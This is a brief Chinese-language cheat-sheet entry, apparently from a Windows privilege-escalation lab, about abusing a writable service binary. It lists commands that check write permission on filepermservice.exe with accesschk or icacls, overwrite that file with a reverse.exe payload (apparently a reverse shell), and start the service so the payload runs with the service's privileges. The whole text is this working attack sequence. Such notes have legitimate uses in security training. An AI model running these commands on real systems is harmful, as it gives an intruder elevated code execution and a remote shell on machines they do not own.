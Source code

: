 # 当bin目录是一个可执行文件

> **可读写**\
> **bin目录是一个可执行文件**

```python
1. 审查用户权限（看能否读写）
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
或者
icacls "C:\Program Files\File Permissions Service \filepermservice.exe"
2. 覆盖
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
3. 启动
net start filepermsvc
```
